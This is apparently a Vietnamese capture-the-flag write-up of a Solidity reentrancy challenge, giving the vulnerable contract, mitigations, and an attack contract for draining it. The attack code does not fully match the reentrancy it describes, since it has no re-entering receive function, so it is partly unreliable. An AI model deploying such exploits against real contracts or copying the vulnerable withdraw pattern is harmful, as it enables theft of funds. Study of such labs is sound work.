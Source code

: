 ### Kết luận:
- Lỗ hổng: xuất phát từ việc gửi Ether trước khi cập nhật trạng thái nội bộ, cho phép attacker gọi lại hàm một cách lặp lại và rút hết tiền trong contract mục tiêu.
- Cách phòng tránh: có thể cập nhật trạng thái trước, sử dụng khóa nonReentrant, và hạn chế gas khi chuyển tiền.
- VD modifier noReentrant (có thể thêm require số dư mới của người dùng thì mới được chuyển tiếp).
```solidity
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }

```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
import './reentrance.sol';
pragma solidity ^0.8.0;
interface IReentrance{
    function balances(address) external returns (uint256);
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns(uint256 balance);
    function withdraw(uint256 _amount) external;
}
contract ReentranceAttack{
    IReentrance victim;
    constructor(address payable challenge){
        victim = IReentrance(challenge);
    } 
    function attack_1_donateandwithdraw() public { // Cause overflow
        victim.donate{value: 1}(address(this));
        victim.withdraw(1);
    }
    function attack_2_reWithdraw() public{
        victim.withdraw(1); // Goi lai ham de tiep tuc tan cong cho den khi contract can tien.
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
